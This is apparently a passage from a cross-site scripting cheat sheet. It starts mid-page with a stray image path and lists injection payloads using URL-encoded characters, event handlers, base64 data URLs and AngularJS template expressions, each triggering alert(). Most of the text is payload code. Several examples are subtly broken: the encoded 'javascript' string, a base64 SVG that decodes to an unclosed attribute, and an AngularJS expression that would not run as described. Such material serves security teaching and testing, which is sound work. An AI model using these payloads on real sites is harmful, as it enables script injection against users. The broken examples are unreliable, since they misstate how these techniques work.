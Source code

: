 Use named entities if numeric ones are sanitized.

**UTF-8 Encodings**

Browsers interpret UTF-8-encoded HTML documents, so you can represent characters using this encoding, like in URLs:

```html
<img src="1" onerror="ja%c6%8dvascript:alert(1)">
```

## Events

JavaScript events can be exploited for XSS by injecting malicious scripts into event handlers. Here are some common event attributes that can be abused:

* `onclick`: Triggered when an element is clicked.
* `onload`: Triggered when an element has finished loading.
* `onmouseover`: Triggered when the mouse pointer is moved onto an element.

Example:

```html
<a href="#" onclick="alert('XSS')">Click me</a>
<img src="nonexistent.jpg" onerror="alert('XSS')">
<div onmouseover="alert('XSS')">Hover over me</div>
```

## Data URLs

Data URLs can contain JavaScript payloads and be used in various attributes, such as `src`, `href`, and `style`. Example:

```html
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click me</a>
<img src="data:image/svg+xml;base64,PHN2ZyBvbmVycm9yPSJhbGVydCgnWFNTJyk+PC9zdmc+">
```

## Template Injection

Template engines like Mustache, Handlebars, and AngularJS can be vulnerable to XSS if not properly sanitized. Example with AngularJS:

```html
<div ng-app="">
  <div ng-init="x=1">
    {{x}}
  </div>
</div>
```

If user input is directly bound to the scope, an attacker can inject AngularJS expressions:

```html
<div ng-app="">
  <div ng-init="x=1">
    {{x}}
    <div ng-init="evil=1+{{alert('XSS')}}"></div>
  </div>
</div>
```
